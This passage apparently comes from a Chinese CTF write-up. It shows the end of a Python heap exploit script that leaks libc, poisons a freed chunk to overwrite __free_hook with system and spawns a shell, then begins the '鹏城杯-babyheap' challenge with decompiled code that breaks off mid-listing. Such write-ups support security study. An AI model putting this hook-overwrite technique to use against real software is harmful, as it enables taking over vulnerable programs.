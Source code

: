 ```bash

def edit(idx,content):
    choice(edit_idx)
    sla('Index :',idx)
    #sla('',size)
    sa('enter the username : ',content)

add(0x10,'/bin/sh\x00')
add(0x88,'aaaa')
add(0x18,'aaaa')
delete(1)

add(0x88,'a'*8)
show(1)
ru('aaaaaaaa')
libc_base = u64(p.recv(6).ljust(8,'\x00'))-0x3c4b0a
leak('libc_base ',libc_base)


system = libc_base + libc.sym['system'] 
free_hook = libc_base + libc.sym['__free_hook']
malloc_hook = libc_base + libc.sym['__malloc_hook']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
add(0x18,'')
add(0x18,'')
add(0x18,'')
add(0x18,'')
edit(2,p64(0)*3+p8(0x81))
delete(3)
add(0x70,p64(0)*8+p64(0x10)+p64(free_hook))
edit(4,p64(system))
delete(0)
'''
'''
#duan()
itr()
```

## 鹏城杯-babyheap

glibc2.38 : off by null + IO\_leak + attack tcache\_struct + 高版本打栈

### ida

```bash
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  IO();
  heap_addr();
  while ( 1 )
  {
    menu();
    switch ( (unsigned int)sub_136B() )
    {
      case 1u:
        add();
        break;
      case 2u:
        edit();
        break;
      case 3u:
        show();
        break;
```